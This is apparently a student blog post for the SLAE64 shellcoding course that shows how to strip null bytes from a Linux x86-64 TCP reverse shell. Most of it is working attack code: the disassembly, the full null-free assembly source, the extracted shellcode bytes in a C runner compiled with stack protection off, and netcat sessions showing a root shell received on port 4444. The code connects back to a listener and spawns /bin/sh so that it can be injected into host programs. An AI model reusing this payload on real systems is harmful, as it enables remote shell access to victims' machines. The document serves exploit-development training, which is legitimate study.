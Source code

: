 ```yaml
---
title: SLAE64 Assignment 2 - Remove Nulls TCP Reverse Shell
date: 2020-4-28
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

## Overview
The second part of the second assignment of SLAE64 was to remove the nulls from the reverse-shell provided by Pentester Academy.

## Compiling & Testing Original - With NASM & LD
The shellcode works great if it is compiled and ran as its own program. This means the shellcode logic is good. 

#### Terminal 1
Start a netcat listener on port 4444 before executing the shellcode.
```bash
root# nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37596
id
uid=0(root) gid=0(root) groups=0(root)
```
#### Terminal 2
```bash
root# nasm -f elf64 RevShell.nasm -o RevShell.o
root# ld RevShell.o -o RevShell
root# vi RevShell.nasm
root# ./RevShell

```
## Removing Nulls
To make this shellcode injectable into most host programs, we will need to remove the `0x00` aka `Nulls`.

To determine which assembly instructions are producing the nulls, we will use `objdump` on the object file.

### Finding the Nulls with `objdump`
```bash
root# objdump -D RevShell.o -M intel
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   c7 44 24 fc 7f 00 00    mov    DWORD PTR [rsp-0x4],0x100007f
  24:   01
  25:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  2c:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  33:   48 83 ec 08             sub    rsp,0x8
  37:   b8 2a 00 00 00          mov    eax,0x2a
  3c:   48 89 e6                mov    rsi,rsp
  3f:   ba 10 00 00 00          mov    edx,0x10
  44:   0f 05                   syscall
  46:   b8 21 00 00 00          mov    eax,0x21
  4b:   be 00 00 00 00          mov    esi,0x0
  50:   0f 05                   syscall
  52:   b8 21 00 00 00          mov    eax,0x21
  57:   be 01 00 00 00          mov    esi,0x1
  5c:   0f 05                   syscall
  5e:   b8 21 00 00 00          mov    eax,0x21
  63:   be 02 00 00 00          mov    esi,0x2
  68:   0f 05                   syscall
  6a:   48 31 c0                xor    rax,rax
  6d:   50                      push   rax
  6e:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  75:   2f 73 68
  78:   53                      push   rbx
  79:   48 89 e7                mov    rdi,rsp
  7c:   50                      push   rax
  7d:   48 89 e2                mov    rdx,rsp
  80:   57                      push   rdi
  81:   48 89 e6                mov    rsi,rsp
  84:   48 83 c0 3b             add    rax,0x3b
  88:   0f 05                   syscall
```

+ After investigating the shellcode, we can see that the Nulls exist due to the mov instructions used.

## Modified Null-Free Shellcode

```nasm
global _start
_start:
jmp short makeSocket
clearRegz:
xor rsi, rsi
mul rsi
push rsi
pop rdi
ret
makeSocket:
; sock = socket(AF_INET, SOCK_STREAM, 0)
; AF_INET = 2 ; SOCK_STREAM = 1 ; syscall number 41
call clearRegz
add rax, 41
add rdi, 2
add rsi, 1
add rdx, 0
syscall
; copy socket descriptor to rdi for future use
mov r8, rax ; r8 = socket-fd
; server.sin_family = AF_INET
; server.sin_port = htons(PORT)
; server.sin_addr.s_addr = inet_addr("127.0.0.1")
; bzero(&server.sin_zero, 8)
call clearRegz
push rax
push dword 0x0101017f
push word 0x5c11 ; push 2 bytes for TCP Port 4444
inc rdx
inc rdx
push dx ; AF-INET
; connect(sock, (struct sockaddr *)&server, sockaddr_len)
add rax, 42
mov rsi, rsp
push r8
pop rdi ; sock-fd
add dl, 0xe ; sizeof(sockaddr)
syscall
; duplicate sockets
; dup2 (new, old)
call clearRegz
mov rdi, r8 ; sock-fd
add rax, 33
syscall
xor rax, rax
add rax, 33
inc rsi
syscall
xor rax, rax
add rax, 33
inc rsi
syscall
; execve
; First NULL push
xor rax, rax
push rax
; push /bin//sh in reverse
mov rbx, 0x68732f2f6e69622f
push rbx
; store /bin//sh address in RDI
mov rdi, rsp
; Second NULL push
push rax
; set RDX
mov rdx, rsp
; Push address of /bin//sh
push rdi
; set RSI
mov rsi, rsp
; Call the Execve syscall
add rax, 59
syscall
```

## Assemble the new shellcode

```bash
root# nasm -f elf64 mod-revshell.asm -o mod-revshell.o
root# for i in $(objdump -D mod-revshell.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''
```

## Add the Modified Shellcode to the C Host Program

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\xeb\x09\x48\x31\xf6\x48\xf7\xe6\x56\x5f\xc3\xe8"
"\xf2\xff\xff\xff\x48\x83\xc0\x29\x48\xff\xc6\x48"
"\xff\xc7\x48\xff\xc7\x0f\x05\x49\x89\xc0\xe8\xdb"
"\xff\xff\xff\x50\x68\x7f\x01\x01\x01\x66\x68\x11"
"\x5c\x48\xff\xc2\x48\xff\xc2\x66\x52\x48\x83\xc0"
"\x2a\x48\x89\xe6\x41\x50\x5f\x80\xc2\x0e\x0f\x05"
"\xe8\xb5\xff\xff\xff\x4c\x89\xc7\x48\x83\xc0\x21"
"\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6"
"\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6"
"\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e"
"\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2"
"\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
int main()
{
 printf("Shellcode Length:  %d\n", strlen(shellcode));
 int (*ret)() = (int(*)())shellcode;
 ret();
}
```


#### Terminal 1
```bash
root# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 40608
id
uid=0(root) gid=0(root) groups=0(root)
```

#### Terminal 2
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode
Shellcode Length:  142
```
+ Awesome! Our Null-Free modified reverse shell works!!


## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```

